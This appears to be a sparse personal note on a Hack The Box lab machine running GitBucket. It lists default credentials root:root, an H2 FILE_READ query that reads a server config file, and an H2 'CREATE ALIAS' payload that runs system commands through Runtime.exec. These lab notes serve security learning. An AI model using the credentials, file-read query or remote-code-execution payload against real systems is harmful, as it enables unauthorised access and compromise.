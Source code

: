 | Name            | Caption                                                         |
| --------------- | --------------------------------------------------------------- |
| Platform        | HTB                                                             |
| Difficulty      | Hard                                                            |
| OS              | Linux                                                           |
| Used techniques | default credentials, command injection, code review, repositorz |
| Technologies    | gitbucket, Apache Thrift, go                                    |
| Tools           | python                                                          |
| CVEs            | none                                                            |

## Enumeration


git bucket
default creds: root:root
h2 database panel admin
SELECT CAST(FILE_READ('/etc/apache2/conf-available/apache2.conf', NULL) AS VARCHAR(10000));


### Directories






### subdomains



## Foothold



```sql
CREATE ALIAS REVEXEC AS $$ String shellexec(String cmd) throws java.io.IOException{
    java.util.Scanner s=new
    java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
    return s.hasNext() ? s.next() : ""; }$$;


CALL REVEXEC('id')

```


## Lateral Movement




## Privilege Escalation


gitbucket 

#### Developed map



#### Sources
[[https://medium.com/r3d-buck3t/chaining-h2-database-vulnerabilities-for-rce-9b535a9621a2]]